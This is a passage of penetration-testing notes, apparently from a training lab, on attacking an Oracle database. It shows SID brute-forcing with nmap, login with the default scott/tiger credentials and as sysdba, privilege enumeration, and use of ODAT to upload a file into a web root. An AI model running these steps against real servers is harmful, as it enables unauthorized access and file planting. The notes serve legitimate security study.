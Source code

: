     ```
    
- **Test ODAT**:
    
    ```bash
    ./odat.py -h
    
    ```
    
- **SID Brute-Forcing**:
    
    ```bash
    sudo nmap -p 1521 --script oracle-sid-brute 10.129.204.235
    
    ```
    
- **SQLplus Login**:
    
    ```bash
    sqlplus scott/tiger@10.129.204.235/XE
    
    ```
    
    - **Error Fix** (if `libclntsh.so` missing):
        
        ```bash
        sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf"
        
        ```
        
- **Enumeration Commands**:
    
    ```sql
    select table_name from all_tables;
    select * from user_role_privs;
    
    ```
    
- **Sysdba Login**:
    
    ```bash
    sqlplus scott/tiger@10.129.204.235/XE as sysdba
    
    ```
    

### Exploitation

- **File Upload**:
    
    ```bash
    ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt
    
    ```
    
    - **Verify**:
        
        ```bash
        curl -X GET http://10.129.204.235/testing.txt
        
        ```
        